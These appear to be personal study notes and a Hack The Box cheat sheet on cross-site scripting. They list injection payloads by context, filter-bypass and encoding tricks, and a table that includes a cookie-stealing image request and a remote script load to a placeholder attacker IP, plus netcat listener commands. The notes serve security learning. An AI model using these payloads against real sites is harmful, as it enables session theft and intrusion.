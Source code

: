 # XSS and CSRF
- [HTB Cross-Site Scripting (XSS) Module](https://academy.hackthebox.com/module/103/section/965)
- [HTB Advanced XSS and CSRF Exploitation Module](https://academy.hackthebox.com/module/235/section/2653)
- [OWASP XSS](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger Xss](https://portswigger.net/web-security/cross-site-scripting)

# TL;DR

# Notes
## Attacking and Exploiting Modern Web Applications (Kindle Book)
### Where is the output presenting itself?
Determine where your input is getting printed in the HTTP response we receive back:
- Inside the head or body: Easy, just use your regular HTML tags like `<script>alert(1)</script>` or load an external script `<script src=https://onofri.org/security/xss.js></script>.`
- If you are inside a comment, you have to escape out of the comment: `--><script>alert(1)</script>`
- Same applies to `<textarea>` - we have to escape it first with `</textarea><script>alert(1)</script>`
- If we are inside a HTMl attribute we can try terminate it right before our payload (vector). An attribute can be delimited by single or double quotes or whitespace. Then we close the tag and place our payload e.g `'><script>alert(1)</script>` or `"><script>alert(1)</script>`
- If we can't escape out of an attribute we might be able to abuse it itself: e.g if we are in a `href` or `src` attribute we can use it directly with: `javascript:alert(1)` but each attribute/element might behave a little differently. And `"onmouseover="alert(1)` or  `'onmouseover='alert(1)` are valid for most.
- If we're in JS code it depends where we are in the code, JS comments are `//`, it's line terminator is `;` and of course `'` + `"`
- Markdown XSS is a thing: `[xss[(javascript:alert('1'))`

### When is our input getting processed?
`<script>alert(1)</script>` is triggered on page load. However if our payload loads dynamically, such as `<img src=x onerror-alert(1)>`, this may be advantageous since onerror is triggered dynamically. Which means:
- Harder for security scanners to detect since the malicious code isn't present during initial page analysis :point_left:
- Can bypass some client-side filters that only check content on page load :point_left:
- Often involves content that gets injected into the DOM after the page has already loaded



## XSS Filter Bypasses
Client-side filters are relatively easy to bypass with BurpSuite, Server-side filters like a WAF or integrated into the app vary in effectiveness as it depends largely on their config.

### How might these filters be implemented?
- Allow listing (Whitelisting) of allowed elements, attributes or characters.
- Blacklisting of allowed elements, attributes or characters.
- Filters are often layered. A payload may pass one filter but get caught by another
- Input could be truncated after a certain number of characters so worth trying short payloads. Some browsers will let you omit `http` or `https` by using `//` e.g `<script/src=//v.ht/aa`
- HTML is case-sensitive whilst JavaScript is not.
- Authoers favourite way to evaluate what characters are encoded or not, as it will help determine which useful characters are permitted, encoded, removed and whether the input is in upper or lowercase:
```
;:!--''" <SCs>=&{[(`)]}//.
```


### Weak Blacklists
- Casing: `<ScRiPt>alert(1);</ScRiPt>`
- Casing: `<object data="JaVaScRiPt:alert(1)">`
- Casing: `<img src=x OnErRoR=alert(1)>`
- No Space allowed: `<svg/onload=alert(1)>`
- If `img` is blocked, try `audio` or `video`
- If `alert` is blocked, try `prompt` or `confirm`
- If parenthesis `()` are blocked, try the back tick `
- To combine the last 3:
```
<audio src onloadstart=confirm`1`>
```
- Partial encoding e.g if the string `javascript:` is blocked, try `j&#X41vascript:`

### JavaScript Encodings
- Unicode: `"\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029"`
- Octal: `"\141\154\145\162\164\50\61\51"`
- Hex: `"\x61\x6c\x65\x72\x74\x28\x31\x29"`
- Base64: `atob("YWxlcnQoMSk=")`

### String Creation
- fromCharCode: `String.fromCharCode(97,108,101,114,116,40,49,41)`
- source: `/alert(1)/.source`
- URL Encoding: `decodeURI(/alert(%22xss%22)/.source)`

### Execution Sinks:
- eval: `eval("alert(1)")`
- setTimeout: `setTimeout("alert(1)")`
- setInterval: `setInterval("alert(1)")`
- Function: `Function("alert(1)")()`
- constructor: `[].constructor.constructor(alert(1))()`

---



---

# HTB Cheat Sheet
## XSS Payloads
| Code | Description |
|------|-------------|
| `<marquee>` | Basic XSS Payload |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

## Commands

| Code | Description |
|------|-------------|
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80` | Start `PHP` server |


